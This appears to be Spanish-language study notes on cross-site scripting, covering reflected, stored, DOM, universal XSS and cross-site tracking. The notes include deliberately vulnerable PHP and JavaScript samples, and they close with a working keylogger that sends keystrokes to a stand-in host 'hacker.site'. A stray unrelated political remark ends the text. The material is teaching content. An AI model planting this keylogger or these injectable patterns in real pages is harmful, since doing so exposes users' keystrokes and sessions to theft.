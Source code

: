 ```yaml
---
title: 'Cross-Site Scripting (XSS)'
description: ''
pubDate: 'Jul 08 2022'
heroImage: '/placeholder-hero.jpg'
---
```


### Reflected XSS (server)

Ocurre cuando la data del usuario es enviada a la aplicación web y es inmediatamente repetida de vuelta al contenido no confiable

La victima trae la carga en su request a la página vulnerable,
esta carga se inserta en la webapp y el navegador lo executa.

```php
<?php $name = @$_GET['name']; ?>

Welcome <?=$name?>
```

### Stored or Persistent XSS (server)
La carga se ejecuta en todos los usuarios que visiten la página.
El código es guardado por la app, sin sanitizar y luego rendereado.

El código malicioso puede ser injectado, por los atacantes, directamente por la webapp.

```php

<?php
$file = 'newcomers.log';
if(@$_GET['name']) {
  $current = file_get_contents($file);
  $current .= $_GET['name']."\n";
  // almacena 'newcomer'
  file_put_contents($file, $current);
}
// si admin muestra 'newcomers'
if(@$_GET['admin'] == 1) {
  echo file_get_contents($file);
}
>

```

### DOM XSS | Type-0 | Local XSS (client)

Es dado cuando JavaScript usa los datos del usuario como parte de su lógica igual que *reflected* pero sin interactuar con el lado del navegador.

```php
# Toda la información del DOM esta disponible, URL, history, cookies, etc. 

# Hay dos llaves fundamentales: SOURCES y SINKS
<h1 id='welcome'></h1>
<script>
  var w = "Welcome";
  // location.hash -> SOURCE del input desconfiable
  var name = document.location.hash.substr(
    document.location.hash.search(/#w!/i) + 3,
    document.location.hash.length
  );
  // innerHTML -> SINK donde el input es usado
  document.getElementById('welcome').innerHTML = w + name;
</script>

# Sumideros(sinks) son como puntos en la corriente de agua donde dependiendode la fuente(input del usuario) puede ser peligroso resultando en la perdida de Confidencialidad, Integridad y Disponibilidad.
```

### Universal XSS | UXSS

No aprovecha las fallas de la "App" sino de las extensiones, plugins.

### Cross-Site Tracking (XST)

<script>
  // TRACE Request
  var xmlhttp = new XMLHttpRequest()
  var url = 'http://victim.site'
  xmlhttp.withCredentials = true
  xmlhttp.open('TRACE', url)

  // Callback para registrar todas las cabezeras de la respuesta
  function hand() {
    console.log(this.getAllResponseHeaders())
  }
  xmlhttp.onreadystatechange = hand
  xmlhttp.send()
  // Si todo va bien podemos leer las cabezeras de vuelta del request'TRACE', esta tecnica es antigua y los navegadores lo bloquean
</script>

### XSS Ataques

- Recoleccion de cookies
- Desfiguraciones
- Phishing
- Keylogging
- Ataques de Red
- Auto-XXS


**Desfiguraciones**

Con este ataque se intenta dar un mensaje preciso o información engañosa a los usuarios.

*Virtul:* Si explotamos un defecto que no modifique el contenido hosteado en la web objetivo, entonces es un desfiguracion virtual. Esto pasa en XSS Reflejado

*Persistente:* En este caso la página es modificada permanentemente, el atacante no necesita engañar a los usuarios para que visiten una URL creada.

**Phishing**

URLCrazy es una herramienta de linea de comandos que genera y prueba tipos de dominios y variaciones para detectar y realizar allanamiento de tipos, URL hijacking, phishing, y espionaje.

**keylogging**

```javascript
var keys=''
document.onkeypress = function(e) {
  var get = window.event ? event : e
  var key = get.keyCode ? get.keyCode : get.charCode
  key = String.fromCharCode(key)
  keys += key
}

window.setInterval(() => {
  if (keys !== '') {
    var path = encodeURI("http://hacker.site/keylogger?k="+keys)
    new Image().src = path
    keys = ''
  }
}, 1000)

```
Algunos frameworks:

- *http_javascript_keylogger (Metasploit)*
- *Event logger:* Es mas sofisticado


Pq se termina el curro de los microfonos ensobrados hijos de la pauta